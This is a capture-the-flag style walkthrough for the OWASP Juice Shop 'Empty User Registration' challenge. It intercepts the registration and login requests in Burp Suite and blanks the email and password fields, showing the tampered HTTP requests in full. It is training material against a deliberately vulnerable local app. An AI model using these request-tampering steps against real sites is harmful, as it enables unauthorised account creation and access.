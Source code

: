 # Empty User Registration

***2 Star Challenge 4/23***

Register a user with an empty email and password.

---

- Burpsuite

1. Open the tool `burpsuite`, go to Proxy and start the Browser with the **Juice Shop**.

2. Navigate to **Login** and enter [Not yet a customer?](http://localhost:3000/#/register).

3. Fill out the Register from with fake data. 

4. Bevor you submit the form, switch into `burpsuite` and start **"Intercept on"** .

5. Submit the form with click on "Register". 

6. Forward the request an take a look into it.

`````bash
POST /api/Users/ HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 254
Accept-Language: de-DE,de;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://192.168.178.33:3000
Referer: http://192.168.178.33:3000/
Accept-Encoding: gzip, deflate, br
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=YBJ6403etotycMfmH1ouNBtJRImnu6NILEFEPt7YfYqF4buNVIWkuqXd13j5
Connection: keep-alive

{
  "email":"jonny23@gmail.com",
  "password":"jonny",
  "passwordRepeat":"jonny",
  "securityQuestion":{
    "id":3,
    "question":"Mother's birth date? (MM/DD/YY)",
    "createdAt":"2025-07-17T12:44:54.599Z",
    "updatedAt":"2025-07-17T12:44:54.599Z"
  },
"securityAnswer":"02.22.1922"
}
`````

7. Manipulate the request data, edit the value of "email", "pwassword" and "passwordRepeat" to an empty string.


`````bash
POST /api/Users/ HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 254
Accept-Language: de-DE,de;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://192.168.178.33:3000
Referer: http://192.168.178.33:3000/
Accept-Encoding: gzip, deflate, br
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=YBJ6403etotycMfmH1ouNBtJRImnu6NILEFEPt7YfYqF4buNVIWkuqXd13j5
Connection: keep-alive

{
  "email":"",             <-- delete value
  "password":"",          <-- delete value
  "passwordRepeat":"",    <-- delete value
  "securityQuestion":{
    "id":3,
    "question":"Mother's birth date? (MM/DD/YY)",
    "createdAt":"2025-07-17T12:44:54.599Z",
    "updatedAt":"2025-07-17T12:44:54.599Z"
  },
"securityAnswer":"02.22.1922"
}
`````
8. Forward the request again and go back to the **Juice Shop** page.


:::success Challenge completed!
You successfully solved a challenge: Empty User Registration (Register a user with an empty email and password.)
:::

---

To Login with this "Empty User" Account.

Repeat the steps. 

1. Go to Login page.

2. Enter some random values.

3. Start **Intercept on** in your `burpsuite`.
4. Submit the Login form.
5. Forword your Proxy
6. Remove the values in the request.

````bash
POST /rest/user/login HTTP/1.1
Host: 192.168.178.33:3000
Content-Length: 34
Accept-Language: de-DE,de;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://192.168.178.33:3000
Referer: http://192.168.178.33:3000/
Accept-Encoding: gzip, deflate, br
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=YBJ6403etotycMfmH1ouNBtJRImnu6NILEFEPt7YfYqF4buNVIWkuqXd13j5
Connection: keep-alive

{
  "email":"asdf",       <--- Remove
  "password":"asdf"     <--- Remove
}
````
7. Forward again.
8. Now your are logged in as "" user.